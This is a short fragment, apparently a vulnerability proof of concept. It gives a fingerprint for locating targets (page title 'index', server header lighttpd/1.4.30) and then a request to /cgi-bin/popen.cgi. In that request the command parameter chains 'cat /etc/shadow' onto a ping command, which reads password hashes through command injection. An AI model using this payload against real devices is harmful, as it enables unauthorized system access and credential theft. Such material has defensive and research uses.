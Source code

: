 ```
title="index" && header="lighttpd/1.4.30"
```



poc

```
/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/shadow&v=0.1303033443137912
```


